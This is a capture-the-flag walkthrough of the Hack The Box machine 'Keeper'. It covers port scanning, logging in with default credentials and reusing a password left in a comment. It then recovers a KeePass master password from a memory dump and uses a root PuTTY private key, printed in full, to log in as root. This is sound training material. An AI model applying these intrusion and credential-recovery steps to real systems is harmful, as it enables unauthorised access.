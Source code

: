 # Keeper | HTB
### Difficulty Level: Easy
----------------------------------------

```bash
# Nmap 7.94SVN scan initiated Thu Apr 18 17:23:04 2024 as: nmap -A -T4 -p- -oN keeper.nmap 10.10.11.227
Nmap scan report for 10.10.11.227
Host is up (0.076s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=4/18%OT=22%CT=1%CU=30720%PV=Y%DS=2%DC=T%G=Y%TM=6621
OS:8FB3%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=104%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=FF%GCD=2%ISR=104%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53CST1
OS:1NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=FE
OS:88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M5
OS:3CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4
OS:(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%
OS:F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%
OS:T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%R
OS:ID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   83.33 ms 10.10.14.1
2   83.83 ms 10.10.11.227

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr 18 17:25:07 2024 -- 1 IP address (1 host up) scanned in 123.42 seconds
```

There are 2 open ports:
22 - SSH
80 - HTTP

Add the machine address to /etc/hosts.
```bash
echo '10.10.11.227     keeper.htb' >> /etc/hosts
```

browse to the webpage:

![image](https://cdn-images-1.medium.com/max/1000/1*uu-dlBFqlNAZuLwN9TFBIg.png)

there is another subdoamin, add it to the file.

there is login page:

![image](blob:https://medium.com/695871d1-acf1-404a-b7a4-364a6ec63ee0)


check for default credentials:

![image](https://cdn-images-1.medium.com/max/1000/1*b8gh8j2vTZtqWD1_4TlBww.png)


and.. I'm in.

I checked the user panel and there is another username "lnorgaard".

there is comment with password.

![image](https://cdn-images-1.medium.com/max/1000/1*TJmGZzD2if37aOYvgDwyrQ.png)

we have credentials of user. let's connect it with ssh:

```bash
└─# ssh lnorgaard@10.10.11.227
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$
```

we are in as inogaard.
There is user.txt flag.

there is zipfile. There are 2 files:

```bash
lnorgaard@keeper:~$ unzip RT30000.zip 
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx
```

there is kdbx that includes passwords and dump file that includes password to open the kdbx file.

I used this dumper from https://github.com/matro7sh/keepass-dump-masterkey

```bash
└─# python3 poc.py ../KeePassDumpFull.dmp 
2024-04-20 16:59:13,956 [.] [main] Opened ../KeePassDumpFull.dmp
Possible password: ●●dgr●d med fl●d
```

that's what i got from it.
I searched it in google and got it : Rødgrød Med Fløde maybe it can be rødgrød med fløde.

use this web app to unlock the file.
https://app.keeweb.info/
enter the password.

that's what I got:

```bash

PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

To convert a PuTTY private key (.ppk) to an SSH key (.pem), you can use the PuTTYgen tool in command-line mode.
The PuTTYgen tool provides a command-line interface for performing key conversions and operations.
Here's the command to convert a PuTTY private key (.ppk) to an SSH key (.pem) using PuTTYgen in command-line mode:

```bash
puttygen key.ppk -O private-openssh -o id_rsa
```
give it 600 per.

```bash
chmod 600 id_rsa
```

than use ptk to enter root user.

```bash
ssh root@keeper.htb -i id_rsa
```

and we are root.

```bash
└─# ssh root@keeper.htb -i id_rsa
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Sat Apr 20 23:19:47 2024 from 10.10.14.30
root@keeper:~#
```






























